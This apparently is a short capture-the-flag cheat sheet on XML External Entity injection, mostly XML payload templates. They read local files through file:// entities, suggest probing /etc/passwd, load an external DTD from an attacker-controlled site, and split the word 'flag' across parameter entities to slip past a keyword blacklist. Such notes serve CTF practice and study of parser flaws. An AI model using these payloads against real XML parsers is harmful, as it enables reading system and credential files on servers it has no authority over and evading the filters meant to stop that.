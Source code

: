 # XML 
## 1) Remember to look at the structure of the site

XML files need to follow a structure. Examine what is required.

## Example 1) Basic Template 
```xml
<?xml version="1.0"?>
<!DOCTYPE rss [
  <!ELEMENT rss ANY>
  <!ENTITY data SYSTEM "file:///flag_b8556065ceae28e450639223d5eef891">
]>
<rss>
    {STRUCTION OF PARSER}
</rss>
```

Need to figure out where inside the system you want to access 

Try to figure out the directories 
//etc/passwd

## Example 2) Blacklisted "flag"
```xml
<?xml version="1.0"?>
<!DOCTYPE rss [
  <!ELEMENT rss ANY>
  <!ENTITY % sp SYSTEM "{YOUR_SITE}">
  %sp;
]>
<rss>
</rss>
```

```xml
<!ENTITY data SYSTEM "file:///flag_0bcb91edf3f9eedb7fab7544e157b4be">
```

## Example 2) Blacklisted "flag" && flag on external link 
```xml
<?xml version="1.0"?>
<!DOCTYPE rss [
  <!ELEMENT rss ANY>
  <!ENTITY % sp SYSTEM "{YOUR_SITE}">
  %sp;
]>
<rss>
</rss>
```

```xml
<!ENTITY % earth "file:">
<!ENTITY % is "///fla">
<!ENTITY % flat "g_f7cd6bacc5c0bbb2ba70e03d31a149a7">
<!ENTITY % PATH "%earth;%is;%flat;">

<!ENTITY % fleg '<!ENTITY data SYSTEM "%PATH;">'>
%fleg;
```

https://gracefulsecurity.com/xxe-cheatsheet-xml-external-entity-injection/